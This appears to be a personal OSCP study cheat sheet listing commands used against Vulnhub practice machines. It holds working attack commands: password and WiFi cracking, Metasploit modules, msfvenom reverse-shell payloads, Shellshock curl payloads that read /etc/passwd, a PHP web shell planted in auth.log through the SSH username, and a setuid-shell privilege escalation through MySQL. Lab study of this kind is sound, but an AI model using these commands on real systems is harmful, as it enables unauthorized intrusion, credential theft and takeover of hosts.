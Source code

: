 ```yaml
---
title: OSCP Command
author: Yuchao
date: 2022-07-09 11:33:00 +0800
categories: [dev]
tags: [linux, oscp]
math: true
mermaid: true
---
```


From 0SCP-like Vulnhub boxes
- https://www.vulnhub.com/

# Commands
- ``` service smbd restart && dhclient eth0 ```
- ``` tcpdump -nnttttAr wireless.cap ```
- ``` tcpdump -nnttttAi lo ```
- ``` aircrack-ng -w wordlist.txt wireless.cap ```
- ``` netstat -antp ```
- ``` nmap -p- -A -T5 {IP} ```
- ``` dirb {IP} -u {usr}:{passwd} ```
- ``` zsteg -a suspicious.png ```
- ``` john --show --format=Raw-MD5 hashfile ```
- ``` ssh admin@{IP} -p6464 -t "bash --noprofile" ```
- https://ghidra-sre.org/
- ``` ssh-keygen ```
- ``` steghide extract -sf file.jpg ```
- ``` ls | sed s/\.jpg// ```
- ``` hydra -L wordlist -P wordlist {IP} ssh ```
- ``` rsmangler -m 6 -x 8 -r -d -e -i --punctuation -y -a -C --pna --nb --space --allow-duplicates -f wordlistOrigin -o newwordlist ```
- ``` history ```
- ``` msf> use windows/ftp/ftpshell_cli_bof ```
- ``` msf> session -i 1 ```
- ``` meterpreter> upload accesschk64.exe ```
- ``` meterpreter> shell ```
- ``` .\accesschk64.exe /accepteula -uwcqv ```
- ``` .\accesschk64.exe -uwqs Users c:\*.* ```
- ``` sc qc {service_name} ```
- ``` icacls "{service_path}" ```
- ``` tasklist /SVC ```
- ``` msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={IP} LPORT={port} -f exe -o file.exe ```
- ``` move a.exe b.exe ```
- ``` shutdown /r ```
- ``` meterpreter> run post/windows/manage/migrate ```
- ``` enum4linux {targetIP} ```
- ``` smbclient //{target_IP}/anonymous ```
- ``` smbclient //{target_IP}/helios -U helios ```
- ``` wpscan --url {url} --api-token {token} --enumerate p,u ```
- ``` cd /var/mail/user ```
- ``` telnet {IP} 25 ```
- ``` find / -uid 0 -perm -4000 -type f 2>/dev/null ```
- ``` john shadowfile --wordlist=/usr/share/wordlists/rockyou.txt ```
- ``` ./LinEnum.sh ```
- ``` ssh -L 8080:localhost:8080 aelus@192.168.56.156 ```
- ``` msf> set RHOSTS localhost ``` ssh tunnel
- ``` msf> set LHOST eth1 ``` ssh tunnel
- ``` msf> sessions -l ```
- ``` msf> sessions -i 1 ```
- ``` python -c 'import pty; pty' ```
- ``` sudo mysql -e '\! /bin/sh' ```
- ``` curl -H "user-agent: () {:;}; echo; echo; /bin/bash -c cat '/etc/passwd' " http://{IP}/cgi-bin/underworld ```
- ``` curl -A () " {echo h;}; echo; bin/ls -l " http://{IP}/cgi-bin/test.cgi ```
- ``` scp pspy32 hades@{IP}:/home/hades ```
- ``` ssh '<?php system($_GET["cmd"]);  ?>'@{IP}  ``` to interfere /var/log/auth
- ``` netstat -antup ```
- ``` ss -tulpn ```
- ``` socat tcp-listen:9999,reuseaddr,fork tcp:localhost:8080 ```
- ``` search python flask jsonpickle exploit ```
- ``` $bind = ldap_bind($ldap_ch, "cn=admin,dc=symfonos,dc=local", "{password_hash}") ```
- ``` ldapsearch -h {host} -p {port} -b "dc=symfonos,dc=local" -w '{password}' -D "cn=admin,dc=symfonos,dc=locol" ```
- ``` apt-get install hexchat ```
- ``` msf> use auxiliary/scanner/smtp/smtp_enum ```
- ``` find /etc/ -maxdepth 1 -name *.conf -type f -exec ls -la {} \; 2>/dev/null ```
- ``` find /etc/ -maxdepth 1 -name *.conf -type f 2>/dev/null | xargs ls -al ```
- ``` update-alternatives --config java ```
- ``` lsb_release -a ```
- ``` uname -a ```
- ``` https://github.com/21y4d/nmapAutomator/blob/master/nmapAutomator.sh ```
- ``` find / -maxdepth 5 -name *.php -type f -exec grep -Hn password {} \; 2>/dev/null ```
- ``` crackstaion.net ``` crack hash
- ``` cat /etc/sudoers ```
- ``` echo os.system('/bin/bash') ```
- ``` grep -Hn textpattern * 2>/dev/null ```
- ``` ps aux | grep mysql ```
- ``` mysql> use mysql ```, ``` mysql> select * from mysql.func; ```
- ``` mysql> select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh') ```
- ``` hydra -L usernames -p {password} {IP} ssh -t1 ```
- ``` git clone https://github.com/lanjelot/patator.git ``` like hydra
- ``` fcrackzip -u -D -p wordlist file.zip ```
- ``` ssh -vv noob@{IP} -i noobkey ```
- ``` ssh noob@{IP} -i noobkey '() { :;}; echo SHELLSOCK' ```
- ``` ssh-keygen -b 2048 -t rsa ```
- ``` ./ssh/authorized_keys ```
- ``` find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null ```
- ``` ./program $(python3 -c 'print("a"*1000)') ```
- ``` locate pattern_create ```
- ``` locate pattern_offset ```
- ``` msfvenom --platform linux -p linux/x86/exec -f py CMD="/bin/sh" -b '\x00\x0a\x0d' -a x86 -e x86/shikata_ga_nai ```
- ``` dotdotpwn -m http -h {IP} -f config.php ```

